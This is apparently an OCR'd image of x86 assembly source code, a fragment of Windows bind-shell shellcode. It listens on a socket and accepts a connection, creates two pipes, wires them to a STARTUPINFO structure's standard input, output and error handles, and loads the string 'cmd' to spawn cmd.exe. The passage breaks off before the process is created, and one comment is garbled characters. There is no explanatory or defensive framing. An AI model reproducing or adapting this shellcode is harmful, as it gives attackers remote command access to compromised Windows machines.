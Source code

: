```
LListen:
         ;listen(listenFD,2)
              inc edi
              inc edi
              push edi           ;2
              push ebx           ;socket
              call [ebp + 40]        ;listen
LAccept:
         ;accept(listenFD,(sockaddr *)&server,&iAddrSize)
              push 0x10
              lea  edi,[esp]
              push edi
              push esi           ;&server
              push ebx           ;socket
              call [ebp + 44]        ;accept
              mov ebx, eax       ;save newsocket to ebx
Createpipe1:
         ;CreatePipe(&hReadPipe1,&hWritePipe1,&pipeattr1,0);
              xor edi,edi
              inc edi
              push edi
              xor edi,edi
              push edi
              push 0xc      ;pipeattr
              mov esi, esp
              push edi      ;0
              push esi      ;pipeattr1
              lea eax, [ebp+60]  ;&hWritePipe1
              push eax
              lea eax, [ebp+56]  ;&hReadPipe1
              push eax
              call [ebp+4]
CreatePipe2:
         ;CreatePipe(&hReadPipe2,&hWritePipe2,&pipeattr2,0);
              push edi      ;0
              push esi      ;pipeattr2
              lea eax,[ebp+68]   ;hWritePipe2
              push eax
              lea eax, [ebp+64]  ;hReadPipe2
              push eax
              call [ebp+4]
CreateProcess:
         ;ZeroMemory TARTUPINFO,10h  PROCESS_INFORMATION  44h
              sub esp, 0x80
              lea edi, [esp]
              xor eax, eax
              push  0x80
              pop ecx
              rep stosd //清空 s?弞,?? i
         ;si.dwFlags
              lea edi,[esp]
              mov eax, 0x0101
              mov [edi+2ch], eax;
         ;si.hStdInput = hReadPipe2 ebp+64
              mov eax,[ebp+64]
              mov [edi+38h],eax
         ;si.hStdOutput si.hStdError = hWritePipe1 ebp+60
              mov eax,[ebp+60]
              mov [edi+3ch],eax
              mov eax,[ebp+60]
              mov [edi+40h],eax
         ;cmd.exe
              mov eax, 0x00646d63    
```